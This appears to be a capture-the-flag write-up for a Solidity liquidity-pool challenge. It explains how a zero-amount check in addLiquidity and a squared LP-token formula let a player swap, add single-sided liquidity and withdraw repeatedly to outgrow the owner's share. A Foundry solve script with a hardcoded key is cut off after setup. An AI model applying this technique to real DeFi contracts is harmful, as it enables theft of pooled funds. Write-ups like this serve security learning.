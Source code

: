 Intially in `setUp` contract minted 11 ether of tokens `WETH` and `PuffETH` and provided liquidity to `Pool` contract. 
Setup contract has two claim functions to claim 1 ether of `WETH` and `PuffETH` tokens for us. To solve this challenge we need to hold more than half of the shares held by owner.

Owner provided 10 ether of each token to the pool, but we have only 1 ether of each, as soon as the protocol is secured we can't actually do this. But we know there is a bug :)

Let's find it. 

Points to note in the protocol 

- In the `swap()` function we can swap one token at a time. No flash loan kind of thing (Uniswap)
- `addLiquidity()` function was checking the in tokens ratios incorrectly, `if (amount0 < 0 || amount1 < 0)` this improper check will allow us to add `0` amount of liquidity of a token.
- This line `uint256 liquidityTokens = ((amount0*amount0) + (amount1*amount1))/(1 ether)` is calculating the liquidity tokens to mint for us. To get more LP tokens we can make amount0 or amount1 soo bigger then the square of will be even big and it will be devided by 1 ether, but we will get decent number of LP tokens.
- The `removeLiquidity()` function will transfer both the tokens equally (`liquidityTokens/2`).

So, now what we can do is, we will swap our `WETH` completely for `PuffETH` token and then we provide liquidity of `PuffETH` token only so that we can make `liquidityTokens` somewhat higher in calculation.
Then we remove the liquidity to get equal amount of `WETH` and `PuffETH` tokens. We will continue this for 2 iterations, so we will get more than 10 ether of `WETH` and `PuffETH` tokens. At last providing liquidity of both tokens to the pool
will mint us more LP tokens than owner. 

{% note(clickable=true, header="Solve.s.sol") %}

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "lib/forge-std/src/Script.sol";
import {Setup, DummyWETH, DummyPUFETH} from "../src/Setup.sol";
import {Pool} from "../src/Pool.sol";
import {LiquidityToken} from "../src/LiquidityToken.sol";
import {ERC20} from "../src/ERC20.sol";

contract SolveScript is Script {
    Setup public set = Setup(0xa8e2ccc88E1DE035FD0BF796D9Aad250b8e6e9EB);
    address public user = 0x07009df29BE4772dD6FF1b1166e3598840290e4f;
    Pool public pool;
    DummyWETH  public wethToken;
    DummyPUFETH  public pufethToken;
    function run() public {
        vm.startBroadcast(0xa69081d2dbfafc79223895b25b0317a5dc473f617ba900b482c2664af6025a50);
        pool = set.pool();
        (address weth, address pufeth) = pool.getTokens();
        wethToken = DummyWETH(weth);
        pufethToken = DummyPUFETH(pufeth);
        // set.claimPUFETH();
        // set.claimWETH();

        console.log("User : ", msg.sender);
        console.log("User DummyWETH balance :", wethToken.balanceOf(user));
        console.log("User DummyPUFETH balance :", pufethToken.balanceOf(user));
        console.log("User LiquidityToken balance :", pool.balanceOf(user));
        console.log("Setup LiquidityToken balance :", pool.balanceOf(address(set)));

        console.log("iFee :", pool.getFee());

        wethToken.approve(address(pool), type(uint256).max);
        pufethToken.approve(address(pool), type(uint256).max);
        
```